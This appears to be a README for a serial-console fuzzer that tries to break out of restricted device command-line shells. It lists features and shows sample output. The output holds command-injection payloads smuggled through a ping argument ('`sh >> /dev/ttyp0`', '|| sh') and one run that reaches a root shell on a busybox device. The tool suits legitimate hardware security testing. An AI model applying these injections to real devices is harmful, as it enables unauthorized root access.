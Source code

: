 # CLISerialFuzzer
Serial Connection CLI Command Jail Break Fuzzer.

## Features
* Configurable Serial Communications
* Auto-relogin detection
* Sudo Password detection
* Success-case detection
* Exception-case detection
* Easy to configure command payloads
* Customizable timing / delays
* Fuzz resuming based on test case numbers
* Time remaining estimate updates

## Installation
```

```

## Command Line Parameters
```

```


## Output
```
Serial Connection CLI Command Jail Break Fuzzer : 1.0 Updated: May 3, 2018
Relogin String found from command (test case # 11): 
ping  127.0.0.1    `sh >> /dev/ttyp0`

Entering Username and Password...
Relogin String found from command (test case # 13): 
ping  127.0.0.1    sh

Entering Username and Password...
Relogin String found from command (test case # 35): 
ping  127.0.0.1    `sh >> /dev/ttyp0`

Entering Username and Password...
Error String found from command (test case # 36): 
ping  127.0.0.1    echo FREEDOM >> /tmp/imfree.txt

Success String found from command (test case # 42):
ping 127.0.0.1  || sh
Result Data:

root@busybox:~#

```
